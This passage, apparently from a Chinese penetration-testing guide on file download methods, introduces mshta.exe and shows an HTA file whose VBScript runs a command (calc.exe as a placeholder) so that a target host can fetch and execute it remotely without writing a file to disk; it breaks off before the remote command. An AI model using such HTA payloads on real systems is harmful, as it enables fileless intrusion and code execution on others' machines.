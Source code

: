 ![msi](Windows&Linux常见文件下载方法/msi.png)



#### ***mshta工具（Windows/：***

##### mshta.exe是微软Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件，我们可以在本地构建hta文件，之后通过目标主机的mshta来远程下载并执行，例如在本地创建以下hta文件：

```
<HTML>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD>
<script language="VBScript">
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c calc.exe" // 待执行的命令
self.close
</script>
<body>
Demo
</body>
</HEAD>
</HTML>
```



##### 之后在远程目标主机上执行以下命令实现下载执行操作，且无文件落地：
